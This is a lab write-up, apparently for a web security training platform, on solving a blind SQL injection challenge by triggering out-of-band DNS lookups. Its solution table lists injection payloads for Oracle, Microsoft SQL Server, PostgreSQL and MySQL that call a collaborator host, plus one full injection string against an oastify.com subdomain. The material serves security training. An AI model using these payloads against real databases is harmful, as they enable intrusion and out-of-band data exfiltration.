 # Description
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.
To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.
# Solution
| DB         | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| ---------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:<br><br>`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`<br><br>The following technique works on fully patched Oracle installations, but requires elevated privileges:<br><br>`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |
| Microsoft  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| MySQL      | The following techniques work on Windows only:<br><br>`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  <br>`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`                                                                                                                                                                                                                                                                                                                                                         |
- Turn on **Burp Collaborator**:
```
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://9kuov1cgtbmflbkwdt9rt8mjbah15sth.oastify.com/"> %remote;]>'),'/l') FROM dual--
```


